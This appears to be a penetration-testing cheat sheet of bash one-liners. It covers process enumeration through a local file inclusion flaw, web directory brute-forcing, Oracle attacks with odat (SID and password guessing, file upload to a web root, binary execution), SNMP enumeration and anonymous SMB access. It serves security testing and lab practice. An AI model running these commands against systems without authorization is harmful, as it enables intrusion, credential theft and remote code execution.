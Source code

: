 ### External Process enumeration with LFI
```bash
#to find out which process id is running on the targert port
# 1337 in this case
i=0; MYVAR=""; while [[ $MYVAR != *"1337"* ]]; do MYVAR=$(curl -s http://PATH/TO/LFI?PARA=/proc/$i/cmdline); echo $i; ((i=i+1)); done; 
```

### web enum
```bash
# Usually go for /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt as initial wordlist
# Web dir enum
gobuster dir -u URL -w WORDLIST -t THREADS -x EXTENSION(S) -o OUTPUT_FILE
feroxbuster -u URL -t THREADS -w WORDLIST -x EXTENSION(S) -v -k -n -q -e -r -o OUTPUT_FILE
# Web server version quick enum
curl -I URL
```

### odat
```bash
# execute the odat with sidguesser
odat sidguesser -s IP -p 1521#default port
# wordlist for creds bf
cp /usr/share/metasploit-framework/data/wordlists/oracle_default_userpass.txt .
# replace the space in each entry by `:%s/ /\\//g`
odat passworguesser -s IP -d SID 
# The following commands need the user profile to be db admin
# File upload
odat dbmsxslprocessor -s IP -d SID -U USER -P PASS --sysdba --putFile "C:\\inetpub\\wwwroot\\" "output_name" input_file
# There are several command for executing binary via odat, this is just one of them
odat external table -s IP -d SID -U USER -P PASS --sysdba -exec /temp LOCAL_EXPLOIT_BINARY
```

### snmpwalk and snmpbulkwalk
```bash
# Check if any snmp extended object for code execution
snmpwalk -v X -c public ${IP} NET-SNMP-EXTEND-MIB::nsExtendOutputFull
# For the bulkwalk, may look for SWRun. 
snmpbulkwalk -Cr1000 -c public  -v 2c ${IP} . > snmpbulkwalk
```
> The SWRunName stands for the software binary name. And SWRunPath stands for where the binary from. The SWRunParameters shows the parameters passed into the binary, which potentially got some info exposed to us that we may abuse.

### SMB client
```bash
smbclient \\\\IP\\ -L -N
# If somehow the above command does not work (showing access denied)
smbclient \\\\IP\\ -L -N -I IP
# use the similar command option to login to the share
smbclient \\\\IP\\SHARE -N -I IP
# If -N does not work at all, sometimes you may try guess or anonymous as username with blank password
smbclient \\\\IP\\ -L -U anonymous -P '' -I IP
smbclient \\\\IP\\SHARE -U anonymous -P '' -I IP

```
